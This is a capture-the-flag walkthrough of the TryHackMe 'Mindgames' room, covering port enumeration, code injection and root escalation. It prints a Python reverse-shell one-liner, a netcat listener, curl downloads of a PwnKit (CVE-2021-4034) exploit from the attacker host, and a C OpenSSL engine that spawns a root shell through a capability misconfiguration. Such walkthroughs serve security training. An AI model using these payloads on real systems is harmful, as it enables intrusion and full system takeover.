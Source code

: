 ## Mindgames
https://tryhackme.com/room/mindgames

## Enum
```
nmap -Pn -sC -sV -sT 10.10.21.76 -vv

Scanning 10.10.21.76 [1000 ports]
Discovered open port 80/tcp on 10.10.21.76
Discovered open port 22/tcp on 10.10.21.76
Completed Connect Scan at 20:02, 40.83s elapsed (1000 total ports)
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDffdMrJJJtZTQTz8P+ODWiDoe6uUYjfttKprNAGR1YLO6Y25sJ5JCAFeSfDlFzHGJXy5mMfV5fWIsdSxvlDOjtA4p+P/6Z2KoYuPoZkfhOBrSUZklOig4gF7LIakTFyni4YHlDddq0aFCgHSzmkvR7EYVl9qfxnxR0S79Q9fYh6NJUbZOwK1rEuHIAODlgZmuzcQH8sAAi1jbws4u2NtmLkp6mkacWedmkEBuh4YgcyQuh6jO+Qqu9bEpOWJnn+GTS3SRvGsTji+pPLGnmfcbIJioOG6Ia2NvO5H4cuSFLf4f10UhAC+hHy2AXNAxQxFCyHF0WVSKp42ekShpmDRpP
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNlJ1UQ0sZIFC3mf3DFBX0chZnabcufpCZ9sDb7q2zgiHsug61/aTEdedgB/tpQpLSdZi9asnzQB4k/vY37HsDo=
|   256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrqeEIugx9liy4cT7tDMBE59C9PRlEs2KOizMlpDM8h
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
nmap -Pn 10.10.21.76 -p- --open --min-rate=5000

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

🏴 I have seen that code other CTF. It's Brainf*ck!.

Muuuu,I couldn't use bash shell.

![3](https://user-images.githubusercontent.com/6504854/189129213-44158cd1-14f2-4d03-8800-e31b913cdba5.PNG)
![2](https://user-images.githubusercontent.com/6504854/189130708-d06f3aba-5daf-484a-9eac-12d2d15e627e.PNG)

🏴 I tried to insert some test code, It's PHP or Python? I put PHP code failed, python code(no space) worked.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Flag
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.21.76] 45728
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"

mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server

mindgames@mindgames:~/webserver$ cd /home
cd /home

mindgames@mindgames:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root      root      4096 May 11  2020 .
drwxr-xr-x 24 root      root      4096 May 11  2020 ..
drwxr-xr-x  6 mindgames mindgames 4096 May 11  2020 mindgames
drwxr-x---  5 tryhackme tryhackme 4096 May 11  2020 tryhackme

mindgames@mindgames:/home$ cd mindgames
cd mindgames

mindgames@mindgames:~$ cat user.txt
cat user.txt
thm{41******************************}

mindgames@mindgames:~$ cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied

mindgames@mindgames:~$ sudo -l
sudo -l
[sudo] password for mindgames: 


mindgames@mindgames:~/webserver/resources$  ls -la /usr/bin/pkexec
 ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec

mindgames@mindgames:~/webserver$ cd ../../
cd ../../

mindgames@mindgames:~$ curl -s http://10.10.10.10/1.tar -o 2.tar
curl -s http://10.10.10.10/1.tar -o 2.tar

mindgames@mindgames:~$ tar -xvf 2.tar
tar -xvf 2.tar
./cve-2021-4034
./pwnkit.so
./README.md

mindgames@mindgames:~$ ./cve-2021-4034
./cve-2021-4034

# cat /root/root.txt
cat /root/root.txt
thm{19**********************}
```

### Another Path

![image](https://user-images.githubusercontent.com/6504854/189137060-cb5f5e19-301b-4076-b75b-114d18582e7c.png)

🏴 /usr/bin/openssl = cap_setuid+ep

https://gtfobins.github.io/gtfobins/openssl/#library-load

https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/

```
sudo apt install libssl-dev
vi 1.c
```
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
🏴 I saved as 1.c

```
gcc -fPIC -o 1.o -c 1.c
gcc -shared -o 1.so -lcrypto 1.o
```

```
$ curl http://10.10.10.10/1.so -o 1.so
$ openssl req -engine ./1.so
# cat /root/root.txt
thm{19************************}
#
```

Thank you for your time, Happy Hacking 😄

毎回難しい。酒のんでねよ。 😪😪😪
